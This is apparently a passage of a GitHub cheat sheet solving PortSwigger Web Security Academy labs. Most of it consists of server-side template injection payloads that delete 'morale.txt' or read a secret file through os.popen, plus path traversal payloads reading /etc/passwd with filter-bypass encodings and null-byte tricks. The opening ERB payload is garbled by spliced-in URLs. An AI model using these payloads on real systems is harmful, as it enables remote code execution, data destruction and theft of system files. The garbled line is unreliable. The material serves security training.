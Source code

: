 ```
<%= system("rm+morale.txt")https://hackehttps://book.hacktricks.xyz/rone.com/opportunities/all
```
2. Basic server-side template injection (code context)  
```
blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('rm+morale.txt')}}
```
3. SSTI using documentation  
Java Freemaker
```
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
```
4. SSTI in an unknown language with a documented exploit  
NodeJS Handlebars [exploit](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)
5. SSTI with information disclosure via user-supplied objects  
Python Jinja2
```
{{settings.SECRET_KEY}}
```
6. Admin panel Password Reset Email SSTI  
Jinja2
```
newEmail={{username}}!{{+self.init.globals.builtins.import('os').popen('cat+/home/carlos/secret').read()+}}
&csrf=csrf
```
## Directory traversal
Just scan with Burp  
If you can get /etc/passwd, but cannot get /home/carlos/secret (maybe WAF is blocking the word secret), just URL-Encode the whole payload (even with /home/carlos/secret) like this:
```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```
Arises at `/image?filename=`
recommend you to turn on images inspection in proxy setting to easily detect this type  
### Exploits
1. File path traversal, traversal sequences blocked with absolute path bypass  
```
/image?filename=/etc/passwd
```
2. File path traversal, traversal sequences stripped non-recursively  
```
/image?filename=..././..././..././etc/passwd
```
3. File path traversal, traversal sequences stripped with superfluous URL-decode  
```
Double URL-encode ../../../etc/passwd
(e.g. %252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd)
It is recommended to use cyberchef to encode
```
4. File path traversal, validation of start of path  
```
/image?filename=/var/www/images/../../../../etc/passwd
```
5. File path traversal, validation of file extension with null byte bypass  
```
../../../../../../etc/passwd%00.jpg
```
## Access control vulnerabilities